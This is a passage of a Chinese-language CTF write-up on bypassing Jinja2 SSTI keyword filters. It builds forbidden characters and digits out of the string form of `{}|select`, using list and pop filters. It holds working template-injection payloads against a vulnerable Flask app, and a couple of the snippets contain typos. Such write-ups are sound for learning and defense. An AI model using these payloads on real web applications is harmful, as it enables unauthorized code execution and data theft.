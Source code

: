 ```python
    </div>
    <!--flag in /flag-->
    <!--python3.8-->
''' % (name)
    return render_template_string(template)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000)
```

可以看到题目过滤的死死地，最关键是把attr也给过滤了的话，这就很麻烦了，但是我们还可以用过滤器进行绕过。

在存在ssti的地方执行如下payload：

```python
{% set org = ({ }|select()|string()) %}{{org}}
# 或 {% set org = ({ }|select|string) %}{{org}}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-5ff40ea79bbadc83222fa1ba470c0386780dce81.png)

可以看到，我们得到了一段字符串：`<generator object select_or_reject at 0x7f06771f4150>`，这段字符串中不仅存在字符，还存在空格、下划线，尖号和数字。也就是说，如果题目过滤了这些字符的话，我们便可以在 `<generator object select_or_reject at 0x7f06771f4150>` 这个字符串中取到我们想要的字符，从而绕过过滤。

然后我们在使用`list()过滤器`将字符串转化为列表：

```php
{% set orglst = ({ }|select|string|list) %}{{orglst}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-78b4707fb2dce7c5173bb6266c9b0662525b9c17.png)

如上图所示，反回了一个列表，列表中是 `<generator object select_or_reject at 0x7f06771f4150>` 这个字符串的每一个字符。接下来我们便可以使用使用pop()等方法将列表里的字符取出来了。如下所示，我们取一个下划线 `_`：

```python
{% set xhx = (({ }|select|string|list).pop(24)|string) %}{{xhx}}    # _
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-82d15e31969565eb1b3ffcdf9faa7d715d643fdd.png)

同理还能取到更多的字符：

```python
{% set space = (({ }|select|string|list).pop(10)|string) %}{{spa}}    # 空格
{% set xhx = (({ }|select|string|list).pop(24)|string) %}{{xhx}}    # _
{% set zero = (({ }|select|string|list).pop(38)|int) %}{{zero}}    # 0
{% set seven = (({ }|select|string|list).pop(40)|int) %}{{seven}}    # 7
......
```

这里，其实有了数字0之后，我们便可以依次将其余的数字全部构造出来，原理就是加减乘除、平方等数学运算，如下示例：

```python
{% set zero = (({ }|select|string|list).pop(38)|int) %}    # 0
{% set one = (zero**zero)|int %}{{one}}    # 1
{%set two = (zero-one-one)|abs %}    # 2
{%set three = (zero-one-one-one)|abs %}    # 3
{% set five = (two*two*two)-one-one-one %}    # 5
#  {%set four = (one+three) %}    注意, 这样的加号的是不行的,可能是因为加号在URL里会自动识别为空格,只能用减号配合abs取绝对值了
......
```
